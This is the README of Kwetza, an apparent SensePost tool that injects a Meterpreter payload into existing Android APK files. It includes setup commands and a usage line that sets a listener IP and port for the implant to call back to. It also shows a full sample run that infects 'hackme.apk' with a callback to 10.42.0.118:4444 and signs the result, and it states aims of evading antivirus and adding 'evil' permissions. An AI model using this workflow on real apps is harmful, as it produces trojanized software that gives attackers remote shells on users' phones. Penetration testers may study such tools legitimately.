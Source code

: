 #Introduction
By Chris Le Roy (@bromwpnie) chris@sensepost.com

Kwetza is a tool that allows you to infect an existing Android application with a Meterpreter payload.

#What does it do?
Kwetza infects an existing Android application with either custom or default payload templates to avoid detection by antivirus. Kwetza allows you to infect Android applications using the target application's default permissions or inject additional permissons to gain additional functionality.

#Getting the code

Firstly get the code:
```
git clone https://github.com/sensepost/kwetza.git
```

Kwetza is written in Python and requires BeautfiulSoup which can be installed using Pip:
```
pip install beautifulsoup4
```
Kwetza requires Apktool to be install and accessible via your PATH. This can be setup using the install instructions located here: https://ibotpeaches.github.io/Apktool/install

#Usage

python kwetza.py nameOfTheApkToInfect.apk LHOST LPORT yes/no

* nameOfTheApkToInfect.apk =name of the APK you wish to infect.
* LHOST =IP of your listener.
* LPORT =Port of your listener.
* yes =include "yes" to inject additional evil perms into the app, "no" to utilize the default permissions of the app.

```
python kwetza.py hackme.apk 10.42.0.118 4444 yes
[+] MMMMMM KWETZA
[*] DECOMPILING TARGET APK
[+] ENDPOINT IP: 10.42.0.118
[+] ENDPOINT PORT: 4444
[+] APKTOOL DECOMPILED SUCCESS
[*] BYTING COMMS...
[*] ANALYZING ANDROID MANIFEST...
[+] TARGET ACTIVITY: com.foo.moo.gui.MainActivity
[*] INJECTION INTO APK
[+] CHECKING IF ADDITIONAL PERMS TO BE ADDED
[*] INJECTION OF CRAZY PERMS TO BE DONE!
[+] TIME TO BUILD INFECTED APK
[*] EXECUTING APKTOOL BUILD COMMAND
[+] BUILD RESULT
############################################
I: Using APktool 2.2.0
I: Checking whether source shas changed...
I: Smaling smali folder into classes.dex
I: Checking whether resources has changed...
I: Building resources...
I: Copying libs ...(/lib)
I: Building apk file...
I: Copying unknown files/dir...
###########################################
[*] EXECUTING JARSIGNER COMMAND...
Enter Passphrase for keystore: password
[+] JARSIGNER RESULT
###########################################
jar signed.

###########################################

[+] L00t located at hackme/dist/hackme.apk
```


#Information

Kwetza by default will use the template and keystore located in the folder "payload" to inject and sign the infected apk. If you would like to sign the
infected application with your own certificate, generate a new keystore and place it in the "payload" folder and rename to the existing keystore or change the 
reference in the kwetza.py. The same can be done for payload templates. The password for the default keystore is, well, "password".

#License

Kwetza is licensed under a Creative Commons Attribution-NonCommercial-ShareAlike 4.0 International License (http://creativecommons.org/licenses/by-nc-sa/4.0) Permissions beyond the scope of this license may be available at http://sensepost.com/contact.
